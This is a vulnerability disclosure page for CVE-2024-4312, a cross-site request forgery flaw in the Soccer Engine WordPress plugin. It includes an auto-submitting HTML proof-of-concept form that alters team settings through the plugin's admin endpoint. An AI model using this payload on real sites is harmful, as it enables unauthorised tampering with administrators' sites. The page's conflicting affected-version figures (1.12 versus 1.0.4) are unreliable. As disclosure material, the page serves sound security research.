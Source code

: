 ```yaml
---
layout: page
title: CVE-2024-4312
subtitle: Soccer Engine – Soccer Plugin for WordPress <= 1.12 - Cross-Site Request Forgery
---
```

## Description
The Soccer Engine – Soccer Plugin for WordPress plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.12. This is due to missing or incorrect nonce validation when saving match and team settings. This makes it possible for unauthenticated attackers to change plugin settings as well as teams, players, etc. via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.4

## PoC :
```
<html>
  <!-- Made by eneriiiii <3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=daextsoenl-teams" method="POST">
      <input type="hidden" name="form&#95;submitted" value="1" />
      <input type="hidden" name="name" value="eneri" />
      <input type="hidden" name="description" value="eneri" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="type" value="0" />
      <input type="hidden" name="club&#95;nation" value="ad" />
      <input type="hidden" name="national&#95;team&#95;confederation" value="0" />
      <input type="hidden" name="stadium&#95;id" value="0" />
      <input type="hidden" name="full&#95;name" value="" />
      <input type="hidden" name="address" value="" />
      <input type="hidden" name="tel" value="" />
      <input type="hidden" name="fax" value="" />
      <input type="hidden" name="website&#95;url" value="" />
      <input type="hidden" name="foundation&#95;date" value="" />
      <input type="hidden" name="foundation&#95;date&#95;alt&#95;field" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/soccer-engine-lite/soccer-engine-soccer-plugin-for-wordpress-112-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4312





